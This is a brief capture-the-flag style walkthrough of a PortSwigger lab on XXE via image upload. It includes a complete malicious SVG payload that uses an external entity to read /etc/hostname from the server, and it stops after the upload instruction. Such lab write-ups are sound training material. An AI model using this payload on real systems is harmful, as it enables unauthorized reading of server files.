

# [Lab: Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

## Lab

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the  `/etc/hostname`  file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Hint

The SVG image format uses XML.

## Analysis

the upload file function allows `svg` extension.

## Solutions

create a svg file:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

upload this file and check:


